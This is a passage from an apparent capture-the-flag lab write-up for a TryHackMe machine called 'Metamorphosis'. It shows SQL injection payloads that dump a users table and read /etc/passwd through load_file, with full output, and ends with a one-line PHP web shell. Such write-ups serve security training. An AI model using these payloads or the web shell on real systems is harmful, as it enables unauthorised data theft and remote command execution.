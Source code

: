 **Let's extract all data from that table!**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3 user_query.py
[*] Payload: " UNION ALL SELECT NULL,NULL,CONCAT(uname, ':', password) FROM users-- -
[*] Payload result:
tom:{Redacted}
```

Nothing useful.

**Hmm... Let's try to read a file into to the web server:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3 user_query.py
[*] Payload: " UNION ALL SELECT NULL,NULL,load_file("/etc/passwd")-- -
[*] Payload result:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
tom:x:1000:1001::/home/tom:/bin/bash
```

It worked!

**How about writing a file? Like writing a PHP webshell:**
```php
<?php system($_GET["cmd"]); ?>
```
